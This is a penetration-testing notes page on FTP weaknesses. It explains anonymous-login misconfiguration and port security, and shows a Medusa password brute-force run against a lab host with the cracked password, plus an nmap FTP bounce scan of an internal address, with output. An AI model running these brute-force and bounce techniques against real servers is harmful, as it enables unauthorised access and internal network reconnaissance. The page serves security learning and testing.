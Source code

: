 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# FTP

## Misconfigurations

### Anonymous Authentication

Anonymous login is dangerous if read and write permissions have not been set up correctly for the FTP service, this is because with the anonymous login, the company could have stored sensitive information in a folder that the anonymous user of the FTP service could have access to.

{% hint style="info" %}
To gain access with the anonymous login, use the `anonymous` username and _**no**_ password.
{% endhint %}

This may allow an attacker to access sensitive information or even upload dangerous scripts. Using other vulnerabilities, such as path traversal in a web application, the attacker would be able to find out where this file is located and execute it.

### Port Security

Modern FTP servers only accept [**PORT** ](https://www.geeksforgeeks.org/computer-networks/port-security-in-computer-network/)commands that initiate a connection from the originating host. It denies any other `PORT` commands that may try to connect to different device IPs. An individual can check for this default feature in their systems.

If this setting is disabled the server may be open to attack such as: [#ftp-bounce-attack](ftp.md#ftp-bounce-attack "mention")

## Brute-Forcing

### Using Medusa

```bash
clue@machine[~]$ medusa -u greg -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp 
                                                             
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>                                                      
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: greg (1 of 1, 0 complete) Password: 123456 (1 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: greg (1 of 1, 0 complete) Password: 12345 (2 of 14344392 complete)
ACCOUNT CHECK: [ftp] Host: 10.129.203.7 (1 of 1, 0 complete) User: greg (1 of 1, 0 complete) Password: 123456789 (3 of 14344392 complete)
ACCOUNT FOUND: [ftp] Host: 10.129.203.7 User: greg Password: password [SUCCESS]
```

## FTP Bounce Attack

An FTP bounce attack is a network attack that uses FTP servers to deliver outbound traffic to another device on the network. The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server.

{% hint style="warning" %}
## Old School Attack

Modern FTP servers by default prevent this attack, but if the server is misconfigured it may be vulnerable to the FTP Bounce Attack.

[#port-security](ftp.md#port-security "mention")
{% endhint %}

Consider we are targeting an FTP Server `FTP_DMZ` exposed to the internet. Another device within the same network, `Internal_DMZ`, is not exposed to the internet. We can use the connection to the `FTP_DMZ` server to scan `Internal_DMZ` using the FTP Bounce attack and obtain information about the server's open ports. Then, we can use that information as part of our attack against the infrastructure.

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The [nmap](../../../toolbox/tooling/information-gathering/nmap/ "mention") `-b` flag can be used to perform an FTP bounce attack:

```bash
clue@machine[~]$ nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>
```
